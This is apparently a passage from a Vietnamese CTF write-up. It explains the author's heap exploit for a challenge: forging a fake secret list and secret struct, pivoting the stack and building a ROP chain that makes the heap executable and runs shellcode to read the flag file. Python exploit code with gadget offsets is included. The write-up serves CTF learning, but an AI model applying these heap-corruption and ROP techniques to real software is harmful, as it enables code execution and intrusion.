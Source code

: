 Magic gì đây :))  

Như vậy ta đã có `rdx = heap_addr` rồi.  
Bùm và đây là đoạn mình đã làm tới trong lúc thi. Khá là sure kèo sẽ làm tiếp được. Tuy nhiên tại đây có một khó khăn nữa là địa chỉ truyền vào là heap nhưng mà lại là heap của các struct `secret` nên không thể rop được.  

Lúc thi mình nghĩ là cần tới 2 double free để thực hiện OOB write vừa ghi cả vào `secret->retain` của một chunk nào đó vừa ghi đè lên `gSecretList` cơ. Nên nản và biết là éo kịp thời gian.  

Về nhà bình tâm lại mới thấy thực ra không cần.  

Chúng ta chỉ cần ghi đè tạo một fake `gSecretList` là được. Sau đó, tạo một fake_secret có `fake_secret->retain = mov_rsp_rdx`.  

Fake_secret phải vừa đảm bảo nó là một secret hợp lệ có `pName` hợp lệ vừa phải có `retain` như trên. Ta có thể làm điều này nhờ các lệnh `pop`.  

Mình tạo một rop để cấp quyền `rwx` cho heap rồi chạy shellcode.  

```python
pop_rdi = libc.address + 0x26b72
pop_rcx = libc.address + 0x9f822
pop_rsi = libc.address + 0x27529
pop_rdx_rbx = libc.address + 0x162866
pop_rax = libc.address + 0x4a550
syscall = libc.address + 0x11bb04

shellcode = asm(
    shellcraft.pushstr( 'flag\x00' ) +
    shellcraft.open( 'rsp' , 0 , 0 ) +
    shellcraft.read( 'rax' , 'rsp' , 0x70 ) +
    shellcraft.write( 1 , 'rsp' , 0x70 )
)

fake_chunk = flat([
        pop_rdi, heap_base,  
        pop_rcx, heap_base + 0x3000,      # fake_name at heap + 0x3000
        pop_rdx_rbx, 0x7, mov_rsp_rdx,    # retain
        pop_rsi, 0x2000,
        syscall,                          # mov al, 0xa
        heap_base + 0x10d0                # shellcode  
    ])
```

Sau đó chỉ việc chạy và có flag thôi.  
